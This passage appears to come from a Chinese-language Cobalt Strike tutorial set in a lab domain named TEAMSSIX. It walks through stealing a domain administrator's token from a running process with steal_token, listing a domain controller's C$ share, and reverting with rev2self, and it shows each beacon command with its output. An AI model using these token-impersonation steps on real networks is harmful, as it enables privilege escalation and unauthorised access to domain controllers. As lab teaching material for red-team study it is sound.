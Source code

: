 通过进程信息可以发现 TEAMSSIX 域下的管理员账户此时在当前 SYSTEM 会话的主机上是登录着的，使用 `steal_token [pid]` 命令窃取 TEAMSSIX\Administrator 账户的令牌

```powershell
beacon> steal_token 4092
[*] Tasked beacon to steal token from PID 4092
[+] host called home, sent: 12 bytes
[+] Impersonated TEAMSSIX\administrator
```

查看一下当前会话 uid

```powershell
beacon> getuid
[*] Tasked beacon to get userid
[+] host called home, sent: 8 bytes
[*] You are TEAMSSIX\administrator (admin)
```

再次尝试获取域控制器主机下的文件

```powershell
beacon> shell dir \\WIN-P2AASSD1AF1\C$
[*] Tasked beacon to run: dir \\WIN-P2AASSD1AF1\C$
[+] host called home, sent: 55 bytes
[+] received output:
 驱动器 \\WIN-P2AASSD1AF1\C$ 中的卷没有标签。
 卷的序列号是 F269-89A7
 \\WIN-P2AASSD1AF1\C$ 的目录
2020/07/16  21:24    <DIR>          Program Files
2020/07/16  21:52    <DIR>          Program Files (x86)
2020/07/17  23:00    <DIR>          Users
2020/07/26  00:55    <DIR>          Windows
               0 个文件      0 字节
               4 个目录 28,493,299,712 可用字节
```

![](https://teamssix.oss-cn-hangzhou.aliyuncs.com/cs17-1.png)

发现可以成功访问了，使用  `rev2self` 可移除当前窃取的令牌

```powershell
beacon> rev2self
[*] Tasked beacon to revert token
[+] host called home, sent: 8 bytes
```

再次查看 uid 发现变成了原来的 SYSTEM 权限，此时 WIN-P2AASSD1AF1 主机上的文件也拒绝访问了。

 ```powershell
beacon> getuid
[*] Tasked beacon to get userid
[+] host called home, sent: 8 bytes
[*] You are NT AUTHORITY\SYSTEM (admin)

beacon> shell dir \\WIN-P2AASSD1AF1\C$
[*] Tasked beacon to run: dir \\WIN-P2AASSD1AF1\C$
[+] host called home, sent: 55 bytes
[+] received output:
拒绝访问。
 ```
